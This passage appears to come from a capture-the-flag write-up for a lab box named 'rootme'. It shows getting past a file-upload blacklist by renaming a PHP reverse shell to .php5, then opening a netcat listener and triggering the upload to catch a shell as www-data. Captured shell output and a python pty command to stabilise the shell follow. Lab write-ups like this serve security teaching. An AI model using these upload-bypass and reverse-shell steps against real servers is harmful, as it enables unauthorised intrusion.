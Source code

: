 ![Upload Reverse Shell](https://github.com/user-attachments/assets/0829c5f3-101f-4fda-bb22-16cedbe42a88)

---

## Setting up Listener

In a separate terminal, start a Netcat listener:

```bash
nc -lvnp <your-port>
```

Once the file is uploaded successfully, trigger the shell by navigating to the uploaded file path.

---

### Reverse Shell Captured:

![Reverse Shell](https://github.com/user-attachments/assets/19f28f5b-098b-41a4-b576-53322a3084ab)
Let upload a shell i rename as shell.php
![image](https://github.com/user-attachments/assets/1e8ee09a-173d-44bc-bee5-9c90655200c4)

As i upload it not permiting me to upload to .php format

![image](https://github.com/user-attachments/assets/87692c48-ea83-42cc-a738-3f47bc8f53a9)

As i not allwoing us to upoad .php we need to chnage the version bez the black listing has mention .php. just chnae and version and upload
```
cp -r php-reverse-shell.php shell.php5
```
upload

![image](https://github.com/user-attachments/assets/0b6bac2a-fc81-4d6c-b336-78e4643b286d)

After we upload we need to excute this.
as we find upload directory `uploads` head to that 

![image](https://github.com/user-attachments/assets/2836cc50-1d92-4c5b-a67b-abd29b7e4600)

Clik on reverse shell 
![image](https://github.com/user-attachments/assets/9605f5ab-34ff-4dc1-991b-e1c2aa635cbd)

As we got the shell
![image](https://github.com/user-attachments/assets/016fa166-6cc5-4d2c-a3db-a15411a2e5f9)

![image](https://github.com/user-attachments/assets/697ef3e1-c4fb-4a65-af06-359cda6b35bb)

Next step is to find User flag
```
nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.184.38 58302
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:47:13 up 4 min,  0 users,  load average: 0.29, 0.37, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Let swape a stable shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
```